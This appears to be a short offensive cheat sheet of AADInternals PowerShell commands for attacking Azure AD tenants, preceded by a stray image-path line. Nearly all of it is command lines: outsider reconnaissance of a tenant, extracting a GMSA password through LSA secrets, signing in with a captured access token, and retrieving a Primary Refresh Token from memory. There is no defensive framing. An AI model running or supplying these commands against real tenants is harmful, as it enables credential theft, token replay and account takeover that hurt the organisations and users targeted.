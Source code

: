 ### Source
https://github.com/Gerenios/AADInternals

### Import
```
Import-Module AADInternals.psd1
```

### Gather informations from AzureAD
```
Get-AADIntTenantDomains -Domain <domain>
```

### Gather informations from AzureAD
```
Invoke-AADIntReconAsOutsider -DomainName <tenant>.onmicrosoft.com
```

### Get GMSA password from given user
```
Get-AADIntLSASecrets -AccountName "<domain>\<user>"
```

### Use AAD Graph token
```
Connect-AzureAD -AccountId <user>@<tenant>.onmicrosoft.com -AadAccessToken <token>
```

### Retrviere Primary Refresh Token from memory
```
Get-AADIntUserPRTToken
```

